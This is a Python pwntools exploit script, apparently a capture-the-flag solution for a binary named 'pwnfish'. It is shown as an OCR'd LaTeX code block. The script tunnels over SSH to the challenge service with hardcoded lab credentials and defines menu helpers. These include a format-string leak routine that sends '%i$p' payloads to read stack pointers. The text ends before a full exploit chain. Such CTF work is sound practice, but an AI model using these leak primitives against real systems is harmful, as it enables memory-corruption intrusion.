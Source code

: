 \begin{verbatim}
import os

from pwn import *
from sshtunnel import SSHTunnelForwarder

SSH_DOMAIN = os.environ["SSH_SERVICE_INTERNAL_URL"]
SSH_PORT = int(os.environ["SSH_PORT"])

# Logging
logging.basicConfig(level=logging.INFO)

REMOTE_HOST = "pwnfish"
REMOTE_PORT = 1337

LOCAL_HOST = "127.0.0.1"
LOCAL_PORT = 3242

server = SSHTunnelForwarder(
    (SSH_DOMAIN, SSH_PORT),
    ssh_username="gl",
    ssh_password="hf",
    allow_agent=False,
    host_pkey_directories=None, 
    remote_bind_address=(REMOTE_HOST, REMOTE_PORT),
    local_bind_address=(LOCAL_HOST, LOCAL_PORT),
)

server.start()
print("server local bind port: " + str(server.local_bind_port))
print("Tunnel is up.")


context.log_level = "warn"

binary = "./pwnfish"

elf = context.binary = ELF(binary, checksec=False)

context.terminal = ["cmd.exe", "/c", "start", "wsl.exe"]

gdbscript = """
break *main
c
"""

libc = ELF('libs/libc.so.6', checksec=False)

whitespace_bytes = [
    b'\x20',  # space
    b'\x09', # horizontal tab
    b'\x0a',  # newline (line feed)
    b'\x0b',  # vertical tab
    b'\x0c',  # form feed
    b'\x0d'  # carriage return
]

def menu(io, choice):
    io.sendlineafter(b"> ", f"{choice}".encode())

def catch_fish(io, name):
    menu(io, 1)
    io.sendlineafter(b"Name your new pet: ", name)

def show_fish(io, name):
    menu(io, 2)
    io.sendlineafter(b"Enter name of fish: ", name)

def leak_any(io, payload):
    catch_fish(io, payload)
    show_fish(io, payload)
    io.recvline()
    # return io.recvline()

def leak_pointer(io, i: int):
    catch_fish(io, f"%{i}$p".encode())
    show_fish(io, f"%{i}$p".encode())
    io.recvline()
    return io.recvline()

def contains_whitespace(payload) -> bool:
    for byte in whitespace_bytes:
        if byte in payload:
            return True
    return False


\end{verbatim}
